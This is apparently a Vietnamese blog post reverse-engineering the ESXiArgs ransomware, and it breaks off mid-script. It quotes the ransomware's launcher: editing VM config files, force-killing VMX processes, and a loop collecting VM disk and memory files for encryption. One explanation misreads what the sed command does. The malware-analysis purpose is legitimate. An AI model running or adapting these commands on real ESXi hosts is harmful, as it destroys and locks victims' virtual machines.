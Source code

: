 ```yaml
---
title: "Phân tích mã độc ESXiArgs"
meta_title: ""
description: "Học cách hoạt động của ransomware ESXiArgs bằng cách dịch ngược nó"
date: 2024-04-01
image: "/images/esxiargs-analysis/ghidra.png"
categories: ["An toàn thông tin", "Phần mềm cấp thấp"]
author: "Nguyễn Bình Nam"
tags: ["Dịch ngược", "Phân tích mã độc"]
draft: false
---
```


Học cách hoạt động của ransomware ESXiArgs bằng cách dịch ngược nó.

Năm vừa qua có xảy ra 1 vụ tấn công ransomware gọi là **ESXiArgs**. Vũ tấn công này đã làm mã hóa hàng trăm các máy ảo VMware khác nhau. Và mình quyết định là sẽ thử sức dịch ngược và phân tích mã độc này để xem nó hoạt động thế nào.

> Note: Mẫu mã độc này được lấy từ [forum bleepingcomputer](https://www.bleepingcomputer.com/forums/t/782193/esxi-ransomware-help-and-support-topic-esxiargs-args-extension/page-14#entry5470686)

## Script chạy

Mình sẽ bắt đầu bằng phân tích script chạy mã đọc trước:

```bash
## CHANGE CONFIG

for config_file in $(esxcli vm process list | grep "Config File" | awk '{print $3}'); do
  echo "FIND CONFIG: $config_file"
  sed -i -e 's/.vmdk/1.vmdk/g' -e 's/.vswp/1.vswp/g' "$config_file"
done
```

Đoạn code này sẽ tìm các file config và đổi các file `vmdk` sang file `vswp`. Ở đây cũng ko có gì quá thú vị về mặt phân tích.

Trong đoạn tiếp theo, script này sẽ dừng quá trình tên là `VMX`:

```bash
## STOP VMX
echo "KILL VMX"
kill -9 $(ps | grep vmx | awk '{print $2}')
```

Quá trình `VMX` là quá trình quản lý các thiết bị I/O (Input/Output). Nó cũng hỗ trợ việc giao tiếp giữa interface người dùng, quản lý snapshot của máy ảo và console remote

Đoạn tiếp theo của script là đoạn *mã hóa*:

```bash
## ENCRYPT

chmod +x $CLEAN_DIR/encrypt

for volume in $(IFS='\n' esxcli storage filesystem list | grep "/vmfs/volumes/" | awk -F'  ' '{print $2}'); do
  echo "START VOLUME: $volume"
  IFS=$'\n'
  for file_e in $( find "/vmfs/volumes/$volume/" -type f -name "*.vmdk" -o -name "*.vmx" -o -name "*.vmxf" -o -name "*.vmsd" -o -name "*.vmsn" -o -name "*.vswp" -o -name "*.vmss" -o -name "*.nvram" -o -name "*.vmem"); do
      if [[ -f "$file_e" ]]; then
        size_kb=$(du -k $file_e | awk '{print $1}')
        if [[ $size_kb -eq 0 ]]; then
          size_kb=1
        fi
```